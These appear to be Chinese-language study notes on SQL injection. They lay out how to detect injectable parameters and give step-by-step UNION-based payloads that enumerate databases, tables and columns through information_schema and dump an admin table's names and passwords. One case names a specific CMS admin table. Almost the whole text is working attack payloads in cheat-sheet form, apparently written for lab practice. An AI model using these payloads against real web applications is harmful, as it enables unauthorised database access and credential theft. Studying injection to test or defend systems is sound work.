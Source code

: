 探测方法：

~~~shell
1、首先要能够传参
2、看页面：user、id、cid
	？后面是参数
	&连接其它参数
3、判断是整型还是字符型注入
	加入一些字符：【‘】【“】，如果是字符型就会允许符号【“】。
4、？user=admin' and '2'='2
	注释掉后面的字符：（--空格-/--+）（#）
	？user=admin' and '2'='3
5、参数未知：
	？user=11' or 1=2-- -
#插件：hackbar
#怎么看有没有反弹：看连接
~~~

注入类型：

## 1、联合查询注入

~~~shell
172.168.20.40:8001/query.php?user=
http://172.168.20.40:8101/
8003
# 联合查询注入：
#1、字段数：
	？user=admin' order by 1 -- -
2、判断回显的字段
	？user=admin' union select name1，name2-- -
3、爆库名
	admin' union select database() -- -
4、爆表名
	* admin' union select (select table_name from information_schema.tables where table_schema='库名' limit 0,1) -- -
5、爆字段
	admin' union select (select column_name from information_schema.columns where table_schema='库名' and table_name='表名' limit 0,1) -- -
6、查需要的信息
	admin' union select (select group_concat(id,name,';',pass) from admins) -- -
# 内置函数
select database()
			 version
			 current_user
			 数据库路径：@@datadir
			 数据库安装路径：@@basedir
# information_schema 5.0版本以后才内置（无法删除）
所有的数据库名 schemata-->schema_name 
所有的表名 tables-->table_name
存储了所有的字段名 columns-->column_name

# 拼接：
	admin' union select group_concat(column_name) from information_schema.columns where table_schema='grade' and table_name='admins' limit 0,1-- -
	; or 0x3a

案例：
listid=-7 union select 1,2,3,4,5,6,7
select table_name from information_schema.columns where table_schema='test' limit 0,1
(select table_name from information_schema.columns where table_schema='test' limit 0,1)
510cms
510_admin
id,mid,name,passwd,remark

~~~
